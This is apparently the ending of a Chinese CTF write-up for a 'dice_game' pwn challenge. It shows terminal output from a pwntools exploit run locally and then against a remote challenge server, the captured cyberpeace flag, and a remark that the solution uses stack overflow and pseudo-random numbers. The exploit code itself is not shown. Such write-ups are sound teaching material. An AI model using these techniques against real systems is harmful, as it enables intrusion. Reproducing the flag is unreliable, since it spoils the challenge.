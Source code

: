 执行结果如下：

```
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Starting local process './dice_game': pid 119
[*] Switching to interactive mode
You win.
Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI
[*] Got EOF while reading in interactive
$ 
```

执行成功，调整到服务器上执行：

```
root@mypwn:/ctf/work/python/dice_game# python dice_game.py 
[+] Opening connection to 111.198.29.45 on port 38348: Done
[*] Switching to interactive mode
You win.
Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAI
cyberpeace{991fe8e6d17a37f714a01d68d3520c2a}

Bye bye!
[*] Got EOF while reading in interactive
$ 
```

这个题目就解答完毕了！主要涉及的知识点是栈内溢出和伪随机数。